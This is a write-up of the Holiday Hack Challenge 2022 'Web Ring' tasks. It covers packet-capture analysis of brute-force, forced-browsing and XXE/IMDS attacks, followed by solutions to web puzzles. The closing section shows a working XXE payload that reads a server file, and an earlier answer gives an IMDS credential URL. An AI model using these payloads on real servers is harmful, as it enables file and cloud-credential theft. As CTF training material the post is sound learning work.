 ```yaml
---
title: "Holiday Hack Challenge 2022: 3 - Recover the Web Ring"
date: 2022-12-29 08:00:00 +0800
categories:
  - "Problem Solving"
  - "Holiday Hack Challenge 2022"
tags: [web]
image:
    path: /assets/img/holiday_hack_challenge_2022/holiday_hack_challenge_2022_banner.png
---
```

**Web Application Vulnerabilities and Exploitation**

Identify XML External Entity \(XXE\) attack and leverage such vulnerabilities to gain access.

## Naughty IP

>Difficulty: 1/5

Use the artifacts from Alabaster Snowball to analyze this attack on the Boria mines. Most of the traffic to this site is nice, but one IP address is being naughty! Which is it? Visit Sparkle Redberry in the Tolkien Ring for hints.

ANS: `18.222.86.32`

![image](/assets/img/holiday_hack_challenge_2022/e4d6c6dd777c487ae74ce679b3bc8b737c4dd518f770756b34b6bdc45cdb2f4f.png)  

## Credential Mining

>Difficulty: 1/5

The first attack is a brute force login. What's the first username tried?

ANS: `alice`

![image](/assets/img/holiday_hack_challenge_2022/682378b63d57d216836579e1f606d6731a5a3c4a72a9b6186bddd324451b14f8.png)  

## 404 FTW

>Difficulty: 1/5

The next attack is forced browsing where the naughty one is guessing URLs. What's the first successful URL path in this attack?

ANS: `/proc`

Observed that the first instance of `HTTP 404 Not Found` occurred in packet 23355.

![image](/assets/img/holiday_hack_challenge_2022/303b7f8f1ee261e157f0cb9d39681ba58c1fd47e2dc5b306d20c3d91b8bb7698.png)  

Observed that the first instance of `HTTP 200 OK` after packet 23355 occurred at packet 26774.

![image](/assets/img/holiday_hack_challenge_2022/b26fc5528ea1649cf803cb5555a77da4c37a192295d073d30913a7e3355c50ed.png)  

Follow HTTP stream.

![image](/assets/img/holiday_hack_challenge_2022/4cff71e32a525c55a2074b918cfaaaf5105512cab7a6e020c5874a3a36bdeda1.png)  

## IMDS, XXE, and Other Abbreviations

>Difficulty: 2/5

The last step in this attack was to use XXE to get secret keys from the IMDS service. What URL did the attacker force the server to fetch?

ANS: `http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance`

![image](/assets/img/holiday_hack_challenge_2022/53235497622f37c1b0090e670e0fdb3f2b05fcf468d7511e16cdc7f7f8746e1f.png)  

## Open Boria Mine Door

>Difficulty: 3/5
>
>Open the door to the Boria Mines. Help Alabaster Snowball in the Web Ring to get some hints for this challenge.

![image](/assets/img/holiday_hack_challenge_2022/7f3829d7c21ba9072bbb5fb227ce732c5d5306b40cdbb2384559140eede9376e.png)  

View Frame Source for first input field. Observed unusual text string.

![image](/assets/img/holiday_hack_challenge_2022/6211a4c376fc4bd5ff9a8dd6185066c314326e9c1d64f1d4469ad7eac65d1211.png)  

Guessing that to unlock requires the two ends to be joined with the same colour.

`@&@&&W&&W&&&&`

![image](/assets/img/holiday_hack_challenge_2022/b6f1432ebd6b051390624b884a2fc3cdd8d5e5abbca76422a636c7dba1b737ba.png)  

Experimented with XML based image format, SVG. Reference: <https://www.w3schools.com/graphics/svg_circle.asp>

For white.

```
<svg height="400" width="400"><circle cx="50" cy="50" r="400" fill="white" /></svg>
```

For blue.

```
<svg height="400" width="400"><circle cx="50" cy="50" r="400" fill="blue" /></svg>
```

Three cells unlocked.

![image](/assets/img/holiday_hack_challenge_2022/ffbd8eeb7db76a1620e538cdf620e0901cbd9dc051edbfb3b12b2d805074e641.png)  

## Glamtariel's Fountain

>Difficulty: 5/5
>
>Stare into Glamtariel's fountain and see if you can find the ring! What is the filename of the ring she presents you? Talk to Hal Tandybuck in the Web Ring for hints.

Link to site: <https://glamtarielsfountain.com/>

![image](/assets/img/holiday_hack_challenge_2022/6b7f9d54d0c1a1ad4fc572a93dcb08351faad81fdd51396a6ed0670d25aa0011.png)  

Inspecting http packet after making an action.

Based on the http packet body, deduced that the 4 images need to be dropped into `none`, `princess` and `fountain` respectively.

![image](/assets/img/holiday_hack_challenge_2022/5dc74ac1b8490f25219188a19f0dc7bd40e073479405b9e599a6c776bf61fd98.png)  

Keeping track of capitalised words or hints that appear during the conversation when `img1`, `img2`, `img3`, `img4` are dropped into `none`, `princess` and `fountain` respectively.

```
TRAFFIC FLIES
TAMPER
PATH
APP
```

`https://glamtarielsfountain.com/static/images/stage2ring-eyecu_2022.png` appear when `img2` dropped into `fountain` at second stage.

![image](/assets/img/holiday_hack_challenge_2022/b4de28b11c12a19a9af64fb910c2b87c30d5c78a9d2262836003c104048f54bc.png)  

```
TYPE
RINGLIST
SIMPLE FORMAT
```

Intercepted the http packet at this stage.

![image](/assets/img/holiday_hack_challenge_2022/dd819e16587af8275d3214a519951227fa0ddd5c4ca40a9bf11c5df8ddff4046.png)  

Modified the body and sent the body in xml format instead.

```
--Redacted--
Content-Type: application/json
--Redacted--
{"imgDrop":"img1","who":"princess","reqType":"json"}
--Redacted--
```

```
--Redacted--
Content-Type: application/xml
--Redacted--
<?xml version="1.0" encoding="UTF-8" ?>
<root>
  <imgDrop>img1</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
--Redacted--
```

Obtained the following response.

```
{
  "appResp": "I love rings of all colors!^She definitely tries to convince everyone that the blue ones are her favorites. I'm not so sure though.",
  "droppedOn": "none",
  "visit": "none"
}
```

Performed XXE injection to retrieve `RINGLIST`. Reference: <https://portswigger.net/web-security/xxe>

Tested in Burp Suite repeater various combinations of `RINGLIST` paths based on the hints provided until successful response.

```
--Redacted--
Content-Type: application/xml
--Redacted--
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt"> ]>
<root>
  <imgDrop>&xxe;</imgDrop>
  <who>princess</who>
  <reqType>xml</reqType>
</root>
```
